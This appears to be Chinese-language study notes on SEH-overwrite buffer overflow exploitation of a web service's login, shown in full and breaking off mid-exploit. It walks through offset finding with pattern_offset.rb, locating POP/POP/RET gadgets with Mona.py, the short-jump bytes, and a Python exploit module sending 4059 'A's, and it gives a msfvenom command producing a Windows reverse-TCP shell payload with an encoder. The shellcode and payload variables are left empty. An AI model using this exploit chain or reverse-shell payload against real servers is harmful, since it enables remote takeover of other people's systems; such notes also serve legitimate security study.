 ##### 计算到catch位置的偏移量

```python
#web程序登录代码
import sys,socket
if len(sys.argv) != 2:
    print "Usage: SEHhack <IP>\n eg:SEHhack 192.168.1.1"
    sys.exit(1)
host=sys.argv[1]
port=80
#packet是向目标发送的数据包
#BP抓包获取登录数据包的内容，并修改，以造成SEH
#
#假如到下一条SEH记录地址为456789123
#根据数据修改的catch块地址为789456123
#
#构建包，SEH，Immunity Debugger，view SEH chain，Metasploit pattern_offset
#
#pattern_offset.rb -q 456789123 -l 10000执行可得到下一条SEH记录地址的偏移量
#pattern_offset.rb -q 789456123 -l 10000执行可得到catch的偏移量
packet=""
#payload自行构建
payload=""
s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(host, port)
s.send(packet)
s.close()
```

##### 查找POP/POP/RET地址

```python
    需要POP/POP/RET指令的地址来载入下一条SEH记录的地址，并跳转到攻击载荷
​    从外部DLL文件载入一个地址(不过目前均有SafeSEH保护机制来编译DLL)，故需要一个没有被SafeSEH保护的DLL模块的POP/POP/RET指令地址
​    Mona.py脚本
​    空指令滑行：在POP/POP/RET地址和Shellcode之间添加一些空指令(如NOPs)，保证Shellcode顺利执行
```

##### 短跳转指令

```python
短跳转指令：用以载入下一条SEH记录的地址，并帮助程序跳转到Shellcode
短跳转指令编码为\xeb\x06
为了补齐，需添加两个\x90，即NOPs
```

#### 渗透模块

```python
处理数据:使用大端模式的网络字节序字节流
    大端模式：数据的低位保存在内存的高地址中，数据的高位保存在内存的低地址中
    小端模式：数据的低位保存在内存的低地址中，数据的高位保存在内存的高地址中
    
import socket,struct
host = "192.168.92.2"
port = 80
#shellcode可以用msfvenom来生成
#坏字符设为\x00\x3b
#msfvenom -p windows/shell/reverse_tcp LHOST=192.168.92.2 LPORT=8585 -b "\x00\x3b" -e x86/shikata_ga_nai -f python -v shellcode
shellcode = ()
print"[+]Connecting to" + host
#导致目标服务器溢出的字符（4059个A）
payload = "A"*4059
#实现跳转的指令（"\xeb\x06\x90\x90"）
payload += "\xeb\x06\x90\x90"
#POP/POP/RET地址
```